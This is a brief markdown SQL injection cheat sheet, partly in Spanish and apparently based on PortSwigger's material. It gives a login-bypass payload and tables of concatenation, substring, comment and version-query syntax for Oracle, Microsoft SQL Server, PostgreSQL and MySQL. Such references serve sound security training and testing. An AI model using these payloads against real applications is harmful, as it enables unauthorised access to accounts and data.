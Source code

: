 ## LOGIN BYPASS

```sql
'+or+1=1--
```

## CHEATSHEET PORTSWIGGER

### CONCATENACION

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`'foo'\|\|'bar'`|
|Microsoft|`'foo'+'bar'`|
|PostgreSQL|`'foo'\|\|'bar'`|
|MySQL|`'foo' 'bar'` [Note the space between the two strings] `CONCAT('foo','bar')`|

### SUBSTRING

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SUBSTR('foobar', 4, 2)`|
|Microsoft|`SUBSTRING('foobar', 4, 2)`|
|PostgreSQL|`SUBSTRING('foobar', 4, 2)`|
|MySQL|`SUBSTRING('foobar', 4, 2)`|

### COMENTARIOS

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`--comment`|
|Microsoft|`--comment o /*comment*/`|
|PostgreSQL|`--comment o /*comment*/`|
|MySQL|`#comment`  `-- comment` [Note the space after the double dash]  `/*comment*/`|

### DATABASE VERSION

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT banner FROM v$version  SELECT version FROM v$instance`|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|
